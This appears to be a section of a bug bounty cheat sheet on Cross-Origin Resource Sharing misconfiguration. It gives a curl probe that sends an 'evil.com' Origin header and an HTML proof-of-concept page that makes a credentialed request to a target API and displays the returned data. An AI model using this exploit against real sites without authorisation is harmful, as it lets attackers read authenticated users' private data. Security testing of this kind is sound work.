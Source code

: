 ## Cross Origin Resource Sharing (CORS)

Testing:
`curl --head -s 'http://example.com/api/v1/secret' -H 'Origin: http://evil.com'`

Check to see what the server responds with in the `Access-Control-Allow-Origin:` (if anything) and if so, check if `Access-Control-Allow-Credentials: true` is present.

If it is trusting arbitrary origins **with** allow-credentials set to true, then host this HTML as a proof of concept.

```
<!DOCTYPE html>
<html>
<head><title>BugBounty CheatSheet</title></head>
<body>
<center>
<h2>CORs POC</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://example.com/api/v1/topsecret", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```
